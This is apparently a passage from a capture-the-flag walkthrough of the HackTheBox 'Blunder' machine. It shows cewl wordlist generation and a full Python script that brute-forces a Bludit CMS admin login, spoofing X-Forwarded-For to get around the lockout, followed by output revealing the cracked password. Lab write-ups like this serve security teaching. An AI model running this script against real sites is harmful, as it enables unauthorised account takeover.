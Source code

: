 with a simple POC. For a word list to go with this brute-force, one was generated using *cewl* on the website as,
```cewl -d 5 -m 4 http://10.10.10.191 > wordlist.txt``` . Using the POC, a python module to brute force the password was
written and the same is given below.
```python
#!/usr/bin/env python3
import re
import requests

host = "http://10.10.10.191" # change to the appropriate URL

login_url = host + '/admin/login'
username = 'fergus' # Change to the appropriate username
fname = "/home/pwnd_root/HTB/Blunder/wordlist.txt" #change this to the appropriate file you can specify the full path to the file

with open (fname) as fl:
    line = fl.readlines ()
    wordlist = [x.strip() for x in line]

for password in wordlist:
    session = requests.Session ()
    login_page = session.get (login_url)
    csrf_token = re.search ('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format (p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post (login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers ['location']:
            print ()
            print ('SUCCESS: Password found!')
            print ('Use {u}:{p} to login.'.format(u = username, p = password))
            print ()
            break
```
With this module, the password of the user *fergus* was brute forced as ***RolandDeschain***.
``` 
[pwnd_root@manjaro Blunder]$ python BluditBruteForce.py 
[*] Trying: Load
[*] Trying: Plugins
[*] Trying: Include
.
.
.
[*] Trying: character
[*] Trying: RolandDeschain

```